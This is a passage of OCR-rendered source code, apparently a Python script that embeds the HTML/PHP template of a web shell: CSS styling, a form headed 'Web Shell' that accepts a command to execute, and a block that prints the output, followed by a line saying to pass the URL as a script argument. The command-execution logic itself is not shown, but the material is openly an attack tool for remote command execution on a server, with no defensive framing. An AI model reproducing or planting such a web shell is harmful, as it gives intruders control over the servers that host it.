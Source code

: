 ```python
        input {
            width: 100%;
            background-color: #efefef;
            border: 2px solid transparent;
        }

        input:focus {
            outline: none;
            background: transparent;
            border: 2px solid #e6e6e6;
        }

        button {
            border: none;
            cursor: pointer;
            margin-left: 5px;
        }

        button:hover {
            background-color: #e6e6e6;
        }

        .form-group {
            display: -webkit-box;
            display: -ms-flexbox;
            display: flex;
            padding: 15px 0;
        }
    </style>

</head>

<body>
    <main>
        <h1>Web Shell</h1>
        <h2>Execute a command</h2>

        <form method="post">
            <label for="cmd"><strong>Command</strong></label>
            <div class="form-group">
                <input type="text" name="cmd" id="cmd" value="<?= htmlspecialchars($_POST['cmd'], ENT_QUOTES, 'UTF-8') ?>"
                       onfocus="this.setSelectionRange(this.value.length, this.value.length);" autofocus required>
                <button type="submit">Execute</button>
            </div>
        </form>

        <?php if ($_SERVER['REQUEST_METHOD'] === 'POST'): ?>
            <h2>Output</h2>
            <?php if (isset($cmd)): ?>
                <pre><?= htmlspecialchars($cmd, ENT_QUOTES, 'UTF-8') ?></pre>
            <?php else: ?>
                <pre><small>No result.</small></pre>
            <?php endif; ?>
        <?php endif; ?>
    </main>
</body>
</html>
    """

 ```
provide the url in the arguments of the script